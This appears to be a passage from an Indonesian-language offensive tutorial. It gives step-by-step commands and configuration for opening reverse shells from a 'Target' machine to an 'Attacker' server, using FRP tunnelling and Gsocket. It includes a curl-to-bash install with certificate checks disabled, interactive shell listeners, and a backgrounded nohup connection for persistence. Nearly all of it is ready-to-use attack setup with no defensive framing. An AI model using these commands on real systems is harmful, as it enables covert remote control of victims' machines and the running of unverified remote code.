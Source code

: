 ```bash
# Jalankan FRP server
./frps -c frps.ini
```

#### Client Setup (Target):
```ini
# frpc.ini
[common]
server_addr = YOUR_VPS_IP
server_port = 7000
token = YOUR_SECRET_TOKEN

[reverse_shell]
type = tcp
remote_port = 6000
plugin = unix_domain_socket
plugin_unix_path = /tmp/frp_reverse_shell
```

```bash
# Jalankan FRP client
./frpc -c frpc.ini
```

### 4. Gsocket (Global Socket)

**Tujuan**: Encrypted reverse shell dengan NAT traversal otomatis

#### Installation:
```bash
# Auto install script
GS_NOCERTCHECK=1 bash -c "$(curl -fsSLk https://gsocket.io/y)"

# Manual install
apt install gsocket  # Debian/Ubuntu
```

#### Server (Attacker):
```bash
# Listen dengan secret key
gs-netcat -l -s YOUR_SECRET_KEY

# Listen dengan interactive shell
gs-netcat -l -s YOUR_SECRET_KEY -i
```

#### Client (Target):
```bash
# Connect dengan secret key
gs-netcat -c -s YOUR_SECRET_KEY -i

# Background connection
nohup gs-netcat -c -s YOUR_SECRET_KEY -i &
```
